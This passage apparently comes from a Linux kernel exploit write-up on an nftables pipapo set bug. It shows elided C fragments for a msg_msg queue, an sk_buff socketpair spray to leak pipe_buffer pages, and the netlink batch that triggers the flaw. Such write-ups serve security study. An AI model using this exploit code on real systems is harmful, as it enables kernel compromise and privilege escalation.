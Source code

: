 ```c
    if (evilqid < 0)
    {
        perror("[-] msgget");
    }
...
```


Next, we prepare an `sk_buff`, which we will later use to allocate a fake `msg_msg`. This allows us to leak `pipe_buffer->page` by reading `sk_buff->data`.

```c
...
// Setup skbuf
    int sock[SKBUF_SPRAY][2];
    for (int i = 0; i < SKBUF_SPRAY; i++)
    {
        if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock[i]) < 0)
        {
            perror("[-] socketpair");
            return -1;
        }
    }
...

```

And now, we arrive at the vulnerability trigger section:

```c

    ...
        // TRANSACTION 2
    batch = mnl_nlmsg_batch_start(mnl_batch_buffer, mnl_batch_limit);
    nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    // create pipapo set
    uint8_t desc[2] = {16, 16};
    set = create_set(
        batch, seq++, exploit_table_name, "pwn_set", 0x1337,
        NFT_SET_INTERVAL | NFT_SET_OBJECT | NFT_SET_CONCAT, KEY_LEN, 2, &desc, NULL, 0, NFT_OBJECT_CT_EXPECT);

    // commit 2 elems to set


    for (int i = 0; i < 2; i++)
    {
        elem[i] = nftnl_set_elem_alloc();
        memset(key, 0x41 + i, KEY_LEN);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_OBJREF, "pwnobj", 7);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_KEY, &key, KEY_LEN);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_USERDATA, &udata_buf, udata_size);
        nftnl_set_elem_add(set, elem[i]);
    }

    nlh = nftnl_nlmsg_build_hdr(mnl_nlmsg_batch_current(batch),
                                NFT_MSG_NEWSETELEM, family,
                                NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK,
                                seq++);
    nftnl_set_elems_nlmsg_build_payload(nlh, set);
    mnl_nlmsg_batch_next(batch);

    nftnl_batch_end(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);
```